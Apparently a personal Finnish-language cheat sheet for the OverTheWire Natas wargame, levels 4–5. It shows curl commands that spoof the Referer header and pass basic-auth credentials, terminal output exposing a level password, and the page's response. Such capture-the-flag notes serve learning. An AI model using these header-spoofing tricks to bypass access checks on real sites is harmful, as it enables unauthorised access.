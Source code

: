 
# level 5

curl komentojen referensi pieni lunttilappu ja lisäyksenä, että kun se toimii ja sama pätee niitä aikaisempia välivaiheita kuten inspect tarkitus, tiedoston polku jos on olemassa `http://network.com/files` ja url polkuun lisäys `/robots.txt`.

```
curl -u natas4:***** --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org
curl -H "Referer: http://natas5.natas.labs.overthewire.org/" http://natas4:******@natas4.natas.labs.overthewire.org 
```

## level 4 - 1

muutamia testauksia ja tarkistuksia, että osat jo pätee samaa tulokseen verrattuna kuvista (selaimen kautta)

```
┌──(kali㉿kali)-[~]
└─$ curl -u natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK --referer http://natas6.natas.labs.overthewire.org/ http://natas5.natas.labs.overthewire.org
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>

┌──(kali㉿kali)-[~]
└─$ curl -H "Referer: http://natas6.natas.labs.overthewire.org/" http://natas5:0n35PkggAPm2zbEpOU802c0x0Msn1ToK@natas5.natas.labs.overthewire.org 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas5", "pass": "0n35PkggAPm2zbEpOU802c0x0Msn1ToK" };</script></head>
<body>
<h1>natas5</h1>
<div id="content">
Access disallowed. You are not logged in</div>
</body>
</html>

```